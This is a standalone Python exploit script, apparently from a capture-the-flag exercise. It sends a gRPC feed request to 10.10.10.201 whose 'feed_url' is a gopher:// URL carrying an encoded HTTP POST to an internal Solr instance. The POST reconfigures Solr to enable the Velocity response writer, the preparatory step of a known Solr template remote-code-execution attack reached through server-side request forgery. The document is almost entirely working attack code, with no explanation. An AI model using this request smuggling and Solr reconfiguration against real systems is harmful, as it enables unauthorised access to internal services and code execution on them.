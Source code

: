 

    #!/usr/bin/env python3

    import base64
    import grpc
    import pickle
    import sys
    import feedengine_pb2
    import feedengine_pb2_grpc
    from urllib.parse import quote


    grpc_payload = """{{
        "version": "v1.0",
        "title": "Printer Feed",
        "home_page_url": "",
        "feed_url": "{url}",
        "items": [
            {{
                "id": "2",
                "content_text": "Queue jobs"
            }},
            {{
                "id": "1",
                "content_text": "Failed items"
            }}
        ]
    }}"""

    post = '''POST /solr/staging/config HTTP/1.1
    Host: localhost:8983
    Content-Type: application/json
    Content-Length: 259

    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
    }
    '''

    host = "10.10.14.9"
    host = "localhost"
    target = f"gopher://{host}:8983/_"
    http1 = target + quote(post, safe='')

    channel = grpc.insecure_channel('10.10.10.201:9000')
    stub = feedengine_pb2_grpc.PrintStub(channel)
    payload_ser = base64.b64encode(pickle.dumps(grpc_payload.format(url=http1)))
    content = feedengine_pb2.Content(data=payload_ser)
    response = stub.Feed(content)
    print(response)
